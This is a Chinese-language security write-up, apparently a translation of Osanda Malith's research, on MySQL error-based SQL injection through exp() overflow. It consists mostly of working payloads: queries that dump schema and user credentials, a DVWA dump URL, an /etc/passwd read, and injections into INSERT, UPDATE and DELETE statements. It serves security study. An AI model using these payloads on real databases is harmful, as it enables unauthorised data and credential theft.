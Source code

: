 #<center>MySQL Error Based SQL Injection Using EXP</center>  
<center>Osanda Malith Jayathissa</center>  
<center>(@OsandaMalith)</center>  
##概述  
这是我发现的另一种double类型的数据溢出。如果你想了解利用溢出来注入，可以读一下我之前发的文章：BIGINT Overflow Error based injections。问题和我之前的文章类似。我对mysql数学函数比较感兴趣，它们应当包含某些数据类型来保存数值。因此我就去测试哪些函数会造成溢出错误。我发现，当传一个大于709的数值时，exp()函数就会引起一个溢出错误。 
 
    mysql> select exp(709);
    +-----------------------+
    | exp(709)              |
    +-----------------------+
    | 8.218407461554972e307 |
    +-----------------------+
    1 row in set (0.00 sec)
    mysql> select exp(710);
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(710)'  
exp()与ln()或log()是功能相反的mysql函数（反函数关系）。简短的介绍一下这些函数的作用，log()和ln()返回自然对数。
e通常情况下近似于2.71828183  

    mysql> select log(15);
    +------------------+
    | log(15)          |
    +------------------+
    | 2.70805020110221 |
    +------------------+
    1 row in set (0.00 sec)
    mysql> select ln(15);
    +------------------+
    | ln(15)           |
    +------------------+
    | 2.70805020110221 |
    +------------------+
    1 row in set (0.00 sec)
    
指数函数为对数函数的反函数，exp()会做相反的运算。  
  
    mysql> select exp(2.70805020110221);
    +-----------------------+
    | exp(2.70805020110221) |
    +-----------------------+
    |15                     |
    +-----------------------+
    1 row in set (0.00 sec)
    
##注入  
当要进行注入时，我们使用取反操作来使double类型超出范围。如果将一个查询结果按位取反就会返回18446744073709551615。如果你能回想起我之前的文章，这是将0按位取反的结果。因为函数执行成功时会返回0，我们将它按位取反会产生无符号BIGINT类型的最大值。    

    mysql> select ~0;
    +----------------------+
    | ~0                   |
    +----------------------+
    | 18446744073709551615 |
    +----------------------+
    1 row in set (0.00 sec)
    mysql> select ~(select version());
    +----------------------+
    | ~(select version())  |
    +----------------------+
    | 18446744073709551610 |
    +----------------------+
    1 row in set, 1 warning (0.00 sec) 

我们可以通过子查询和按位取反来造成double类型溢出错误获得额外的数据。：）  

    mysql> select exp(~(select*from(select user())x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from
    dual)))'  
    
##提取数据  
####Getting table names:
    select exp(~(select*from(select table_name from information_schema.tables where table_schem
    a=database() limit 0,1)x));
####Getting column names:
    select exp(~(select*from(select column_name from information_schema.columns where table_n
    ame='users' limit 0,1)x));
####Retrieving Data:
    select exp(~ (select*from(select concat_ws(':',id, username, password) from users limit 0,1)x));  

##Dump In One Shot  
这个查询可以从当前的上下文中拖出所有的tables与columns。我们也可以拖出所有的数据库，但由于我们是通过一个错误进行提取，每次只会返回很少的数据。  

    http://localhost/dvwa/vulnerabilities/sqli/?id=1' or exp(~(select*from(select(concat(@:=0,(select
    count(*)from`information_schema`.columns where
    table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,colum
    n_name)),@)))x))-- -&Submit=Submit#  

    Warning:mysql_query():Unable to save result set in C:\xampp\htdocs\dvwa\vnlnerabilities\sqli\source\low.php on line 10
    DOUBLE value is out of range in 'exp(~((select '000
    dvwa::guestbook::comment_id
    dvwa::guestbook::comment
    dvwa::guestbook::name
    dvwa::users::user_id
    dvwa::users::first_name
    dvwa::users::last_name
    dvwa::users:user
    dvwa::users::password
    dvwa::users::avatar' from dual)))'
##读取文件
你可以通过load_file()函数来读取文件，但注意它有13行的限制。  
    select exp(~(select*from(select load_file('/etc/passwd'))a));  
    
    mysql> select exp(~(select * from(select load_file('/etc/passwd'))a));)
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    sync:x:4:65534:sync:/bin:/bin/sync
    games:x:5:60:games:/usr/games:/usr/sbin/nologin
    man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
    lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
    mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
    news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
    uucp:x:10:10:uucp:/var/spool/uucp:/usr/
    ->   
    
注意，你无法写文件。因为这是个错误，只会写入0。  

    mysql> select exp(~(select*from(select 'hello')a)) into outfile 'C:/out.txt';
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'hello' from dual)))'
    # type C:\out.txt
    0

##在insert语句中注入  
所有的都和往常一样。 
 
    mysql> insert into users (id, username, password) values (2, '' ^ exp(~(select*from(select
    user())x)), 'Eyre');
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from
    dual)))'  
    
对于所有的insert，update和delete语句DIOS查询也同样可以使用。  

    mysql> insert into users (id, username, password) values (2, '' |
    exp(~(select*from(select(concat(@:=0,(select count(*)from`information_schema`.columns where
    table_schema=database()and@:=concat(@,0xa,table_schema,0x3a3a,table_name,0x3a3a,colum
    n_name)),@)))x)), 'Eyre');
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select '000
    newdb::users::id
    newdb::users::username
    newdb::users::password' from dual)))'  
    
##在update语句中注入  

    mysql> update users set password='Peter' ^ exp(~(select*from(select user())x)) where id=4;
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from
    dual)))'  

##在delete语句中注入  

    mysql> delete from users where id='1' | exp(~(select*from(select user())x));
    ERROR 1690 (22003): DOUBLE value is out of range in 'exp(~((select 'root@localhost' from
    dual)))'  

##小结  
和之前的BIGINT注入一样，利用exp注入也适用于MySQL5.5.5及以上版本。之前的版本无法利用成功。  

    mysql> select version();
    +---------------------+
    | version()           |
    +---------------------+
    | 5.0.45-community-nt |
    +---------------------+
    1 row in set (0.00 sec)
    mysql> select exp(710);
    +----------+
    | exp(710) |
    +----------+
    |   1.#INF |
    +----------+
    1 row in set (0.00 sec)
    mysql> select exp(~0);
    +---------+
    | exp(~0) |
    +---------+
    | 1.#INF  |
    +---------+
    1 row in set (0.00 sec)   

可能还会有其他函数会产生这种错误：）  

##References  
[1][http://dev.mysql.com/doc/refman/5.5/en/integer-types.html](http://dev.mysql.com/doc/refman/5.5/en/integer-types.html)  
[2][https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html](https://dev.mysql.com/doc/refman/5.0/en/numeric-type-overview.html)  
[3][https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html](https://dev.mysql.com/doc/refman/5.0/en/mathematical-functions.html)



    
    
    
    
    
    
    
    
    
    
    
    